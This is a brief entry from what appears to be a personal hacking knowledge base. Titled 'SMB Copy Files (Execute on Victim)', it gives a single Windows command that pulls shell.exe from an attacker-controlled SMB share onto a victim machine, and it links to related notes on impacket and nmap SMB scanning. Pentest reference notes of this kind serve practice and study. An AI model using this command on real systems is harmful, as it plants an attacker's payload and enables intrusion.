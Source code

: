 # SMB Copy Files (Execute on Victim)

```
copy \\192.168.0.1\server_name\shell.exe shell.exe
```

` zet/20221003150567/README.md `

# Related

- [20221003150596](/zet/20221003150596/README.md) impacket quick smb server
- [20221014190001](/zet/20221014190001/README.md) kb file named kb/hacking/common-commands.md
- [20221003150838](/zet/20221003150838/README.md) scan SMB for vulnerabilities with nmap
- [20221003150312](/zet/20221003150312/README.md) SMB

Tags:

    #windows #quick #smb #command

